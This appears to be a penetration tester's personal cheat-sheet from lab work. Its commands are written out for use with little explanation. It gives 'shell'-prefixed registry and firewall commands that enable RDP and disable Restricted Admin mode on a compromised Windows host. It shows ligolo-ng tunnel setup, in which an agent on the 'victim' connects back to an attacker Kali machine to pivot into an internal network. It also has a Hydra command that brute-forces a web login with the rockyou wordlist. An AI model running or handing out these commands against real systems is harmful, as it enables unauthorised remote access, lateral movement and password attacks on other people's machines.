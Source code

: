 Enable RDP
```
shell reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

shell netsh advfirewall firewall set rule group="remote desktop" new enable=Yes




shell reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```

# ligolo - https://github.com/nicocha30/ligolo-ng

## Compiling
- Use the CGO_ENABLED=0 flag when building because of issues with glibc

Public network: 192.168.211.x
Internal Network: 172.16.211.x
## On Kali:
- sudo ip tuntap add user kali mode tun ligolo
- sudo ip link set ligolo up
- sudo ./proxy -selfcert

## On victim [linux]: 
- ./agent -connect 192.168.45.195:11601 -ignore-cert

## On Kali:
- sudo ip route add 172.16.211.0/24 dev ligolo


# Hydra

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.233.134 http-post-form "/login.php:username=admin&password=^PASS^&Submit=Login:Incorrect information"
```

- username is case sensitive...

